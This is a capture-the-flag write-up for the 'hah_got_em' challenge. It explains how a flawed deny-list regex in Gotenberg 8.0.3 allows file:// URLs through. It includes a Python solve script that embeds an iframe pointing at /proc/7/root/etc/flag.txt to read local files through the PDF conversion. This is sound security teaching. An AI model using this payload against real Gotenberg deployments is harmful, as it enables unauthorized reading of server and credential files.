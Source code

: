 ```yaml
---
created: 2024-07-05T20:39
updated: 2024-07-07T03:58
title: hah_got_em
---
```


## Analysis
The docker image is fixed at `gotenbergv8.0.3`, I wonder why...
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720298973/2024/07/ec4bad9f49946fcd2204722dbbd5564c.png)

Turns out there's a security update right after.

After looking through the patch, I found the following lines that were removed.

```go
CHROMIUM_DENY_LIST="^file:///[^tmp].*"

if !b.arguments.allowList.MatchString(url) {
    return fmt.Errorf("'%s' does not match the expression from the allowed list: %w", url, ErrUrlNotAuthorized)
}

if b.arguments.denyList.String() != "" && b.arguments.denyList.MatchString(url) {
    return fmt.Errorf("'%s' matches the expression from the denied list: %w", url, ErrUrlNotAuthorized)
}
```

It appears that the regex was misconfigured and would allow any path that starts with either `t` `m` or `p`.
## Attack
To access `/etc/flag.txt` with a url starting with any character in `[tmp]`, the first thing that came to mind was `proc`.

So I used the docker shell and looked for flag.txt.

```sh
ls proc/*/*/*/* | grep flag.txt
```

```
...
proc/26/cwd/etc/flag.txt
proc/26/cwd/tmp/flag.txt
proc/26/root/etc/flag.txt
proc/26/root/tmp/flag.txt
proc/66/root/etc/flag.txt
proc/66/root/tmp/flag.txt
proc/7/root/etc/flag.txt
proc/7/root/tmp/flag.txt
proc/70/root/etc/flag.txt
proc/70/root/tmp/flag.txt
proc/71/root/etc/flag.txt
...
```

Wow, there's a lot of them, so I picked `pid=7` because I liked the number.

## Solve Script

```python
import requests
import io
import fitz
file_content = """
<iframe src="file:///proc/7/root/etc/flag.txt"></iframe>
"""
file_path = "index.html"

payload = io.BytesIO(file_content.encode('utf-8'))

url = "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/markdown"

files = {"html": (file_path, payload), "md": ("dummy.md", payload)}
response = requests.post(url, files=files)
if 'application/pdf' not in response.headers['Content-Type']:
    print(response.text)
    exit()
print(response.status_code)
pdf_bytes = io.BytesIO(response.content)
pdf_document = fitz.open(stream=pdf_bytes, filetype="pdf")
all_text = ""
for page_num in range(len(pdf_document)):
    page = pdf_document.load_page(page_num)
    all_text += page.get_text()
print(all_text)
```
